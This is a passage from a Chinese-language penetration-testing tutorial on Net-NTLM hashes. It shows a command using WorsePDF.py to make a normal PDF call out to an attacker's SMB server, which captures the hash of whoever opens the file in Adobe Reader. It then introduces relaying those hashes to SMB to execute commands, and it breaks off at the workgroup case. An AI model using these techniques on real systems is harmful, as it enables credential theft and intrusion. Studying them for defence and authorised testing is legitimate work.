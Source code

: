 如图所示，可以看到收到目标机器的 Net-NTLM Hash 了。

![截图](beaac5aa33ad0869426cf7f1823cda1a.png)

### 8. pdf

PDF 文件可以添加请求远程 SMB 服务器文件的功能。于是可以利用 PDF 文件的正常功能够窃取 Windows 系统的 Net-NTLM Hash。当用户使用 PDF 阅读器打开一份恶意的 PDF 文档，该 PDF 会向远程 SMB 服务器发出请求，如果该远程SMB 服务器对数据包进行抓取，就能够获得目标用户的 Net-NTLM Hash。

使用 WorsePDF.py 脚本执行如下命令往正常的 PDF 文件中加入请求远程 SMB服务器的功能，生成` test.pdf.malicious.pdf `文件。

```
python2 WorsePDF.py test.pdf 10.211.55.2
```

如图所示，使用 WorsePDF.py 脚本往正常的 pdf 文件中加入请求指定远程 SMB服务器的功能，生成 `test.pdf.malicious.pdf` 文件。

![截图](bac84eb637126f5f45ed2863907000fc.png)

然后目标主机使用 Adobe PDF 阅读器打开该` test.pdf.malicious.pdf `文件，我们即可收到目标用户的 Net-NTLM Hash 了。如图所示：

![截图](f591b175e0ec14c783ed811dc5bcbd28.png)

注：经过测试发现，只有使用 Adobe PDF 阅读器才会收到目标主机的 Net- NTLM Hash，Chrome、Edge 和 WPS 的 PDF 阅读器不能收到 Net-NTLMHash。

## 重放 Net-NTLM Hash

在获取到了目标机器的 Net-NTLM Hash 后，我们要怎么利用呢？这里有两种利用方式：

1. 使用 **Hashcat** 破解 Net-NTLM Hash
2. **Relay** Net-NTLM Hash

本文主要讲如何 Relay Net-NTLM Hash。我们知道，<u>由于 NTLM 只是底层的认证协议，必须镶嵌在上层应用协议里面，消息的传输依赖于使用 NTLM 的上层协议</u>，比如 SMB、HTTP、LDAP 等。因此，**我们可以将获取到的 Net-NTLM HashRelay 到其他使用 NTLM 进行认证的应用上。**

### 1.Relay To SMB

直接 Relay 到 SMB 服务，是最直接简单的方法，可以直接控制该服务器执行任意命令等操作。这里根据工作组和域环境，有两种场景，如下：

#### （1）工作组
